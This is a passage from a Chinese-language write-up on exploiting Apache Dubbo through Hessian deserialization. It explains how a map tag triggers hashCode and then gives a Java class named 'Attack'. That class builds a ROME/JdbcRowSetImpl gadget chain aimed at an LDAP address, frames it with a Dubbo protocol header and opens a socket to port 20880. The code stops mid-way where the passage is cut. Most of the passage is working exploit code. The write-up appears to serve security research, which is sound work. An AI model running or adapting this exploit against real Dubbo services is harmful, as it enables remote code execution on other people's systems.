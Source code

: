 和`Hessian`那节一样，读取标志位`tag`，根据`tag`选择不同的反序列化器，若`tag`等于72，就对应上`MapDeserializer`，调用`raadMap`触发`map.put()` => `key.hashCode`

因此我们可以通过控制最开始的数据流内容为序列化的`HashMap`对象，这样在读取版本信息的时候就会触发我们的恶意调用链。

```java
package org.apache.dubbo.springboot.demo.consumer;

import com.rometools.rome.feed.impl.EqualsBean;
import com.rometools.rome.feed.impl.ToStringBean;
import com.sun.rowset.JdbcRowSetImpl;
import org.apache.dubbo.common.io.Bytes;
import org.apache.dubbo.common.serialize.Cleanable;
import org.apache.dubbo.common.serialize.hessian2.Hessian2ObjectOutput;

import java.io.ByteArrayOutputStream;
import java.io.OutputStream;
import java.lang.reflect.Field;
import java.net.Socket;
import java.util.HashMap;
import java.util.Random;

public class Attack {

    public static void setFieldValue(Object obj, String fieldName, Object newValue) throws Exception {
        Class clazz = obj.getClass();
        Field field = clazz.getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, newValue);
    }

    public static Object getPayload() throws Exception {
        JdbcRowSetImpl jdbcRowSet = new JdbcRowSetImpl();
        jdbcRowSet.setDataSourceName("ldap://127.0.0.1:8099/aaa");

        ToStringBean bean = new ToStringBean(JdbcRowSetImpl.class, jdbcRowSet);
        EqualsBean fakeBean = new EqualsBean(String.class, "p4d0rn");  // 传入无害的String.class
        HashMap map = new HashMap();
        map.put(fakeBean, 1);  // 注意put的时候也会执行hash
        setFieldValue(fakeBean, "obj", bean);
        return map;
    }

    public static void main(String[] args) throws Exception {
        byte[] header = new byte[16];
        Bytes.short2bytes((short) 0xdabb, header);
        header[2] = (byte) ((byte) 0x80 | 2);
        Bytes.long2bytes(new Random().nextInt(100000000), header, 4);

        ByteArrayOutputStream hessian2ByteArrayOutputStream = new ByteArrayOutputStream();
        Hessian2ObjectOutput out = new Hessian2ObjectOutput(hessian2ByteArrayOutputStream);
        out.writeObject(getPayload());

        out.flushBuffer();
        if (out instanceof Cleanable) {
            ((Cleanable) out).cleanup();
        }
        Bytes.int2bytes(hessian2ByteArrayOutputStream.size(), header, 12);
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        byteArrayOutputStream.write(header);
        byteArrayOutputStream.write(hessian2ByteArrayOutputStream.toByteArray());
        byte[] bytes = byteArrayOutputStream.toByteArray();

        Socket socket = new Socket( "127.0.0.1", 20880) ;
```